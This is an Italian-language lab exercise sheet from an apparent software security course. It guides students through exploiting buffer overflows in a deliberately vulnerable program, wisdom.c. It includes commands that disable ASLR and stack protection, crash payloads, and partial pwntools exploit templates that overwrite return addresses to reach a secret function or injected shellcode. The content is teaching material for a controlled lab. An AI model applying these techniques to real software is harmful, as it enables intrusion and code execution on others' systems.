

Esercizi su buffer overfow
In questo esercizio, consideremo il programma di esempio wisdom.c, disponibile nella macchina virtuale nella cartella swsec-labs/buffer-overflow/challenge, e nel repository online su https://github.com/swsec-book/swsec-labs. L'autore del programma è il prof. Michael Hicks della University of Maryland.
Questo programma richiede all'utente di digitare in input il valore 1 per stampare tutte le stringhe inserite dall'utente fino a quel momento ("perle di saggezza"), oppure il valore 2 per poi inserire una nuova "perla di saggezza" (ossia, una stringa di caratteri).

Per svolgere l'esercizio, occorre disabilitare la randomizzazione degli indirizzi di memoria, e compilare il programma come segue:
$ sudo sysctl -w kernel.randomize_va_space=0
$ gcc -fno-stack-protector -z execstack -g wisdom-alt.c -o wisdom-alt
Il programma ha una vulnerabilità di buffer overflow nella funzione put_wisdom(), che copia in un buffer la stringa di caratteri della "perla di saggezza".
È possibile provocare un crash con i seguenti comandi.
# La prima parte del payload invia il valore "2", più un riempitivo usato per la lettura del valore
$ python3 -c 'import sys; sys.stdout.write("2\n" + "A"*1022)' > payload
# La seconda parte del payload invia una stringa di 1000 caratteri, per provocare un buffer overflow
$ python3 -c 'print("A"*1000)' >> payload
# Esecuzione del programma con il payload
$ ./wisdom-alt < payload
Primo esercizio
Si crei un exploit per la vulnerabilità di buffer overflow, sovrascrivendo l'indirizzo di ritorno sullo stack. Inserire al suo posto l'indirizzo della funzione write_secret(), il modo che il programma stampi a video un messaggio segreto.
from pwn import *
context.arch='amd64' # 64-bit version of x86
context.os='linux'
# Return address in little-endian format
ret_addr = # TBD: indirizzo di write_secret()
addr = p64(ret_addr, endian='little')
# Opcode for the NOP instruction (for NOP sled)
nop = asm('nop')
# First part of the payload
payload = b"2\n" + b"A"*1022
# Second part of the payload
payload += # TBD: riempitivo di NOP # + addr
with open("./shellcode_payload", "wb") as f:
f.write(payload)
Per determinare l'indirizzo di write_secret(), è possibile utilizzare gdb come segue.
$ gdb ./wisdom-alt
(gdb) break main
(gdb) run
...l'esecuzione si interrompe subito prima del main()...
(gdb) print write_secret
$1 = {void (void)} 0x555555555229 <write_secret>
Secondo esercizio
Modificare l'exploit dell'esercizio precedente, per iniettare ed eseguire uno shellcode nel programma vittima.
Terzo esercizio
Compilare il programma in modalità a 32 bit, e modificare l'exploit dell'esercizio precedente.
Per compilare il programma, è possibile usare il seguente comando.
gcc -fno-stack-protector -z execstack -m32 -g wisdom-alt.c -o wisdom-alt-32
In questa variante dell'esercizio, occorre ricercare la sotto-stringa ciclica nel debugger in modo differente.
-
In x86 a 64 bit, l'istruzione macchina RET causa una eccezione PRIMA di fare il pop dell'indirizzo dallo stack
- L'indirizzo rimane sulla cima dello stack
- Il processore si rifiuta di scrivere in RIP un indirizzo "non-canonico"
- La sotto-stringa ciclica si trova quindi sulla cima dello stack
-
In x86 a 32 bit, l'istruzione macchine RET causa una eccezione DOPO aver fatto il pop dell'indirizzo dallo stack
- L'indirizzo viene rimosso dalla cima dello stack
- Il processore inserisce l'indirizzo in EIP
- La sotto-stringa ciclica si trova nel registro EIP
Completare l'exploit partendo dal seguente codice.
from pwn import *
context.arch='i386' # 32-bit version of x86
context.os='linux'
# Return address in little-endian format
ret_addr = # TBD: indirizzo dello shellcode (oppure di write_secret()) #
addr = p32(ret_addr, endian='little')
# Opcode for the NOP instruction (for NOP sled)
nop = asm('nop', arch="i386")
# Writes payload on a file
payload = b"2\n" + b"A"*1022
payload += # TBD: riempitivo di NOP, shellcode # + addr
with open("./shellcode_payload", "wb") as f:
f.write(payload)
Quarto esercizio
Il programma contiene un'altra vulnerabilità di buffer overflow, che riguarda l'array ptrs[] in area dati globale. La vulnerabilità si innesca se si inserisce in input un valore diverso da 1 o 2.
Questo esercizio richiede di inserire un valore in input in modo da eseguire la funzione pat_on_back().
Occorre fare in modo che il programma acceda alla variabile-puntatore p invece che agli elementi contenuti in ptrs[].
Si ricordi che la sintassi in C array[i] equivale a array + i*sizeof(array[0]).
Suggerimenti:
- Prima di avviare il programma con
run, impostare un breakpoint prima o dopo la read() (es.break wisdom-alt.c:97). - Determinare gli indirizzi delle variabili
buf,ptrs,p, e delle funzioni, usando il comandoprint variabile. - Per proseguire l'esecuzione, usare
next(esegue singola istruzione, poi si ferma di nuovo) oppurecontinue.